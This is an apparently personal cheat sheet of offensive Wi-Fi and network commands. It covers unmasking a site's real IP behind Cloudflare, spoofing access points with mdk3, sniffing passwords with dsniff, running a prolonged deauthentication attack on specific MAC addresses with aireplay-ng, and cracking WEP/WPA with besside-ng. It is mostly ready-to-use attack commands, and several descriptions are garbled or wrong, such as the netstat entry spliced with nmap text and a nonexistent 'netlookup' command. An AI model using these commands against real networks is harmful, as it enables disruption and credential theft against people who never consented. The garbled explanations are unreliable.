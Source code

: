 use ping, to see various hops. [will get firewalle] 
nslookup the hopped domain, will likely be  a firewall like cloud flair. look for the last hop to cloud flair 
the difference between IP and domain wiill likely be the real IP your o looking for. 
tO cONFRIM, RUNN ;THE REAL ADDRESS through the results (DOMAINS) through NSLOOKUP, until an anomoly is found. 

------------------------------------------------------[AP-SPOOFING]------------------------------------------------
[mdk4] +[airodump]
* sudo mdk3 wlx0013eff5483f b -c 1 -f ./data/data.lst ## update data.txt with spooffed ap 
* airodump-ng wlx0013eff5483f -c 11 ## use to monitor local APS 

-------------------------------------------------------QUICK& DIRTY NETWORK SCAN ----------------------------
function monitorWIFI() {
	sudo iwevent # display wireless events
	sudo iwlist # scan savailable aps or essid
	sudo iwspy # monitors iw nodes and records strenght and quality of signal
	sudo iwgetid # reports current essid
}
monitorWIFI

------------------------------------------------------ BASIC RECON ------------------------------------------------------

iwevent -- to get wireless events
iwgetid - reports curretn essid / ap

hciconfig dev_name up 
sdptool browse MAC_ADDRESS 


netstat - [helps d-oG” flag can be used to store the nmap result in to specific file.isplay network activity;  (like TCP and UDP) are being used. and rouing. --- outputs mainly TCP] 
netcat -all --> [scans for other protocols (udp and tcp)] 

netlookup <host_name> --> reveals ip
route --> gives access to routing tables 
netstat -rn [finds gatweay address] 

sudo netdiscover -i eth0 -r 192.168.64.1/24,/16,/8 [ [DISCOVER WHOS ON NETWORK]
dsniff - [practically snniffing for any password (FTP HTTP) WHILE ON NETWORK MDODE.] 
netcat [nc] --> [is a creepy, it can be used to follow you oce or persisant follwig you with a fwe commands. it can watch you upload/download or do anything on the networkthat hpersists) 

------------------------------------------------------ WIFI-PESTER ------------------------------------------------------

[DEAUTH]
* netdiscover -r 192.168.50.1/24
* aireplay-ng --deauth 90000000 -a F0:2F:74:2C:7E:88 -c 9a:26:55:ed:ef:84 wlo1

[CRACKING WEP / WPA]
* besside-ng en0 -c 6 -b
* airodump-ng wlx0013eff5483f --encrypt wep
